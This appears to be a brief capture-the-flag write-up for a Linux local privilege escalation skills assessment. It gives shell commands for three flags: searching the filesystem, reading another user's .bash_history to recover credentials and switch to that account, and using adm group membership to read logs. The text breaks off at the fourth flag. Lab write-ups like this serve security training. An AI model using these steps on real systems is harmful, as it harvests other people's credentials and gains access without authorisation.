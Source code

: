 ## Linux Local Privilege Escalation - Skills Assessment

**Flag 1
```shell-session
grep -rnw / -e "LLPE" 2>/dev/null
```
OR
```shell-session
ls -la
cd .config
ls -la
cat .flag1.txt
```

**Flag 2
```shell-session
cat /home/barry/.bash_history
```
- Found credentials
```shell-session
su barry
cat flag2.txt
```

**Flag 3
```shell-session
id
```
- In adm group
```shell-session
cat /var/log/flag3.txt
```

**Flag 4
